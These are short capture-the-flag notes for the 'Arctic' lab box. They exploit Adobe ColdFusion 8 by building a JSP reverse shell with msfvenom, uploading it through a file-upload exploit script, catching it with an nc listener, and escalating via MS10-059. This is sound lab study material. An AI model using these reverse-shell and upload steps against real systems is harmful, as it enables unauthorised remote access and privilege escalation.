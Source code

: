 Arctic ```10.10.10.11```

**Nmap
Gobuster - no use**
- Ports - 135,8500,49154

Adobe Coldfusion 8 located at ```8500```

Vulnerable service - **Coldfusion 8**

- Arbitrary File Upload - arctic.py
- Password getting dumped - 14641.py



- Get a jsp reverse shell
```zsh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 > shell.jsp 
```
- Shell upload
```zsh
./arctic.py 10.10.10.11 8500 shell.jsp
```

- Listener

```zsh
rlwrap nc -lnvp 443
```
*User flag is directly accessible*
**Box is crappy, dies very soon**

-Priv Esc

*Seimpersonate Token was there*
*Vulnerable to Juicy Potato, didnot work box issues*
Used windows exploit suggester. MS10-059 worked for priv escalation.


